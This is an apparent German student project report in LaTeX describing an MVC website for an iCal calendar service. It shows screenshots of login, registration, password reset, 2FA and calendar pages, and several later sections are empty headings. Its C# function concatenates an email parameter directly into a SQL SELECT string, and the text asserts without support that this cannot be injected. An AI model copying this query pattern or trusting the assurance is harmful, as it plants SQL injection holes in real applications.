
\includegraphics[width=\textwidth]{Webseite_MVC_Erstellung_Preview}
\label{sec:erstellung}
\subsection{Aufbau der Webseite }
\label{sec:aufbau}
In diesem Kapitel beschäftigen wir unser damit wie die Webseite aufgebaut ist. Dazu folgen nun einige Screenshots der Webseite. 

Zunächst kommen wir auf die Hauptseite\\ \\

\includegraphics[width=\textwidth]{Webseite_MVC_Aufbau_Main}
Auf dieser kann man sich dann entweder Einloggen oder Registrieren. \\ \\

\includegraphics[width=\textwidth]{Webseite_MVC_Aufbau_Register}

\includegraphics[width=\textwidth]{Webseite_MVC_Aufbau_login}
Hat man sein Passwort vergessen kann man dieses über das Passwort vergessen Feature zurücksetzen. \\ \\

\includegraphics[width=\textwidth]{Webseite_MVC_Aufbau_PasswordReset}
Ist man eingeloggt kann man seinen Account verwalten.\\ \\

\includegraphics[width=\textwidth]{Webseite_MVC_Aufbau_User1}
Man kann sein Passwort ändern oder sein 2FA einrichten. \\ \\

\includegraphics[width=\textwidth]{Webseite_MVC_Aufbau_password}

\includegraphics[width=\textwidth]{Webseite_MVC_Aufbau_2FA}
Und natürlich gibt es hier das Hauptfeature, nämlich das verwalten der Kalender, bzw. das Abrufen der Links oder das direkt herunterladen.\\ \\
 
\includegraphics[width=\textwidth]{Webseite_MVC_Aufbau_calendars}
\subsection{Link generation}
\label{sec:link}
Hier wird das Herz des ICAL-Webservices erklärt. Nämlich die Funktion die der/die fertigen Kalender zur Verfügung stellt.
\begin{lstlisting}
public List<string> getUsersTables(string myuser)
{
        //List fuer UserIDs
        List<int> result = new List<int>();
        //Verbindung zu Datenbank
        using (SqlConnection connection = new SqlConnection(@"dbstring"))
        {
            connection.Open();
            //Abfragen und holen der UserID fuer den Parser
            using (SqlCommand command = new SqlCommand("SELECT userid FROM UserTable WHERE Email = '" + myuser + "'", connection))
            {
                command.CommandType = CommandType.Text;
                using (SqlDataReader reader = command.ExecuteReader())
                {
                    while (reader.Read())
                    {
                        result.Add(reader.GetInt32(0));
                    }

                    reader.Close();
                }
                command.Cancel();
            }
        }
    //Erstellen der Liste fuer die Kalender
    List<string> tables = new List<string>();
    string icals = "";
    //Aufrufen des Parsers und speichern der Daten
    result.ForEach(x => icals += new Parser().GetICalFormat(x));
    //Spliten nach den Kalendern und Files zurueckliefern
    icals.Split("XCALSPLITX").ToList().ForEach(x => { if (x != "") tables.Add(x); });
    return tables;
}
\end{lstlisting}
Bei dem Benutztem SQL Statement könnt man denken das eine SQL-Injection Möglich wäre, ist es aber nicht da hier der übergebene String nicht von der Eingabe des Users abhängt sondern fix im Programm ist.
\subsection{Controller}
\label{sec:Controller}
\subsection{Views}
\label{sec:Views}
\subsection{Services}
\label{sec:Services}
\subsection{User Datenbank}
\label{sec:UserDB}
\begin{itemize}
	\item Salt
\end{itemize}
\label{sec:salt}
